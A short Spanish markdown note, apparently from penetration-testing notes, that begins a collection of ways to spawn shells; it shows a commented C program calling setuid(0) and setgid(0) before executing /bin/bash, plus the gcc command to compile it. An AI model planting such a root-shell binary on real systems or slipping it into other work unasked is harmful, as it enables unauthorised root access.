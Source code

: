 # Introducción:
En está sección vamos a colocar todas aquellas formas o vias de realizar shells, en diferentes lenguajes y formas:

## Lenguaje C:
Generar fichero en C para despues compilarlo en un ELF.
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0); //Trata de forzar que el uid sea 0, es decir el de root (requiere privilegios)
    setgid(0); //Trata de forzar que el grupo sea 0, es decir el de root (requiere privilegios)
    execl("/bin/bash", "bash", NULL); //Sustituye el PID actual y corre el fichero "/bin/bash" llamandolo "bash", sí es una ruta relativa ira a leer "PATH"
    return 0;
}
```
- Compilarlo:
```
gcc file.c -o exec.elf
```

